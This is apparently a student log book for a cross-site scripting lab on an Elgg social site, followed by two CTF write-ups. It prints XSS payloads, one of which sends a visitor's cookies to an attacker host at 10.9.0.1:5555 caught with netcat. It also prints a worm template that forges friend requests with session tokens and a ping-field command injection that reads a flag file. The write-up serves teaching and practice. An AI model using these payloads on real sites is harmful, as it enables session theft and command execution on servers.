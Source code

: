 # Log Book 10

## Task 1
For this task we want to inject a script into our profile. We achieved this by posting the following script into the field "Brief description":

```script
<script>alert('XSS');</script>
```

This script creates an alert window where it's displayed the string "XSS".

![](imgs/week10/task1.png)

## Task 2
By adding the following script to the field "Brief description" where we added the previous script in Task 1, an alert window is displayed with the user's cookies:

![](imgs/week10/task2.png)

## Task 3
In this task we want to be able to send the user's cookies to a server that belongs to the attacker. In the script bellow, we imbed the cookies that we want to send in a request that will be made to the attacker's machine:

```script
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```

By using the ```netcat``` command line tool to listen for any requests made from users that visited our profile, we can get the user's cookies contained in the requests.

![](imgs/week10/task3.png)

## Task 4
The objective of this task is to write a worm that adds Samy to a user's friend list when that user visits Samy's profile.

We can add Samy as a friend normally, and with the extension HTTP Header Live, we can find how a friend HTTP request is encoded:

![](imgs/week10/task4_addSamy.png)

Now we remove Samy as friend so that we can test the script. As we can see in the following image, Alice has no friends:

![](imgs/week10/task4_alice_profile.png)

Using this information, we can create a script that, when executed, forges a request that adds Samy as a friend to the logged in user.

```script
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;

//Construct the HTTP request to add Samy as a friend.

var sendurl=...; //FILL IN

//Create and send Ajax request to add friend

Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

Now we log in into Alice's account and visit Samy's profile. Then we go to Alice's profile and we can see that now, Alice and Samy are friends.

![](imgs/week10/task4_alice_profile.png)

### Question 1
The referenced lines serve to send the elgg token in our forged request so that the server evaluates the request as a valid request from the user.

### Question 2
A successful attack can't be launched since the Editor mode filters HTML special characters and we can't edit the inner HTML content of the field. Thus, injecting any script into the About Me field is not possible (if there's only Text mode), as we can't submit the ```<script>``` tag into profile.

---

## CTF 10

### Challenge 1
##### The goal in this CTF was to beg for the flag and wait 2 minutes for the administrator approval. The strategy we used to solve this problem was using XSS attack to force the administrator approval, therefore getting the flag.
##### At first we tested out with the word "teste" to see what happened.<br>
![](imgs/week10/logbook10_ctf1_teste.png)<br>
##### We figured out there is a button the admin can click to give out the flag to the user, but this button is inacessible to the user.
##### We then proceeded to try XSS to see if it would work.<br>
![](imgs/week10/logbook10_ctf1_script1.png)![](imgs/week10/logbook10_ctf1_script2.png)<br>
##### Then we started to prepare our final script. We discovered the id of the button that gives the flag away and we wrote the script.<br>
![](imgs/week10/logbook10_ctf1_id.png)![](imgs/week10/logbook10_ctf1_script_sol1.png)<br>
##### We were successful!<br>
![](imgs/week10/logbook10_ctf1_script_sol2.png)<br>

### Challenge 2
##### Firstly we start by analysing what features are available to non-authenticated users:
 - Login
 - Speed Report
 - Ping a Host
##### We tried to blindly SQL inject the login form, with common used SQL injection commands but we were not successfull.
##### We then proceeded to try to explore the ping a host system. We attempted to ping google.com:
![](imgs/week10/logbook10_ctf2_google.png)<br>
##### By observing the screenshot above, we can assume that the server is probably using a terminal to run the unix command ping followed by the input that we give it.
##### After knowing this we can now realize that the solution will come from using the cat command in this terminal. So we made use of && for an additional command after the ping: `(ping) google.com && cat /flags/flag.txt`
![](imgs/week10/logbook10_ctf2_sol1.png)<br>
##### We were successful!<br>
![](imgs/week10/logbook10_ctf2_sol2.png)<br>
